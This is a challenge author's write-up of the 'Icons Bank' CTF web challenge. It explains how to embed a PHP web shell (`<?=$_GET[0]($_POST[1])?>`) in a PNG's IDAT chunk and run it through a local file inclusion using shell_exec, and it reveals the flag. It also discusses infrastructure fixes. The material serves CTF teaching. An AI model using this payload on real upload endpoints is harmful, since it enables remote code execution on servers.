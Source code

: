 # Icons Bank

![](./img/category-web.svg) ![](./img/difficulty-medium.svg)

![](./img/iconsbank-desc.png)

This is a challenge that I created. Therefore, I only present to you the expected way to solve it. It should contain just enough steps to understand what is going on, but may lack other tests and techniques that you would use during the CTF to solve such a challenge.

## Solving the challenge

When connecting to the challenge, we see this page.

![](./img/iconsbank-1.png)

Apart from the fact that I took all these pictures from Pixabay, there is one link that seems very important: the `Upload` link.

When you click on it, you arrive on another page, with `/?page=upload` in the URL.

![](./img/iconsbank-2.png)

If you send anything else than a PNG file, it responds with "Only PNG files are supported yet". No matter the extension of the file, it is only a matter of the file looking like a PNG.

With these informations, it should be a little bit clearer that the challenge may be something with uploading a PNG file containing a PHP payload, and including it with a LFI.

After some tries, you discover that:

- Files are compressed and resized to 55x55

- Any file is renamed to SHA256.png, even if you upload a .php file.

## The exploit

The idea of the challenge came from [this post from Synacktiv](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html). It explains what the problem is and how to exploit it, I highly recommend you read it before continuing. By following the **Method 4 - IDAT Chunk** you are able to solve the challenge. There are other posts about that on the internet and this technique has been documented for years now. 

By following the steps described in the article, you come with a little image (110x110) that you can upload on the website. After the upload, you retrieve the URL of the uploaded image (for me `uploads/d531bfd92550547e11000e6ff1bf9a84afdc543a0329b352cedaf4fb362b37bb.png`).

Since we are on `/?page=upload`, let's try to make a LFI: `/?page=uploads/d531bfd92550547e11000e6ff1bf9a84afdc543a0329b352cedaf4fb362b37bb.png`, which works! You should see the contents of the PNG file, with lots of weird symbols showing up. This is probably because the file is not imported as an image but with an `include`, `require` or any other PHP include function.

If you inspect your network (in the browser), you realize that the server properly responds but contains a 500 response code. So what is happening?

The image contains the payload `<?=$_GET[0]($_POST[1])?>`, and I am sending a `GET` request yet, without any parameter, which makes PHP crash.

With `/?page=uploads/yourupload.png?0=shell_exec` with POST arg `1=ls`, you can see that the exploit properly works, and you only have to find the flag (located in `/var/www/.flag`, or `../.flag`).

**Flag:** `GH22{c0mpression_does_not_prot3ct_from_png_execut1on}`

## Problems

### The non-existing XSS bot

We frequently see that our challenges do not behave in the way we expect. Mine is no exception, and I have found myself having set "Your file has been uploaded and is under review by an administrator" only to make the challenge more realistic (the idea is that you don't want to wait for the admin to validate).

However multiple participants thought that a bot would crawl their image and validate them (mainly because at the start of the CTF, the upload was broken and the image would not show up after the upload).

Due to a misconfiguration and a message that confuses participants, I had to make an announcement that no bot was crawling the website to make clear that no XSS was possible. Sometimes RP is cool, but sometimes it is confusing and next time I'll try to make sure that my messages do not cause any confusion.

### Uploads being broken

When the challenge has been up for the first time, I've had several reports that the image appeared broken when uploaded. This was not intended and we had to search for the cause.

Most likely the problem was that the uploads folder was being mounted as a volume in my compose file, and the rights were not the same between the machine and the docker, therefore `www-data` was not able to write inside `/var/www`.

We've fixed that, as well as changed relative paths to absolute paths to be absolutely sure that we would not have any problem with this chall during the rest of the day.

Thanks to the whole infra team, we've been able to fix the challenge in a few minutes and I've learnt new ways to create my challenges so that won't happen in the future:

- Never use the same folder for pre-existing uploads and user uploads.

- Use as much read-only as you can, and use `tmpfs` whenever needed (would be very nice for uploads).

- Use absolute paths everywhere you can, since you are in control of your compose file.

With that in mind, I swear to the infra team that next year will be easier for them to use my challenges. Forgive me for what I've done.

![](https://media0.giphy.com/media/xT5LMF484pbSBucXOo/giphy.gif?cid=ecf05e470bnj8kmjruu6d3yxhf70hffoj1wx1co7clx3o6xg&rid=giphy.gif&ct=g)

(that is me when I give my buggy challenge to the infra team)
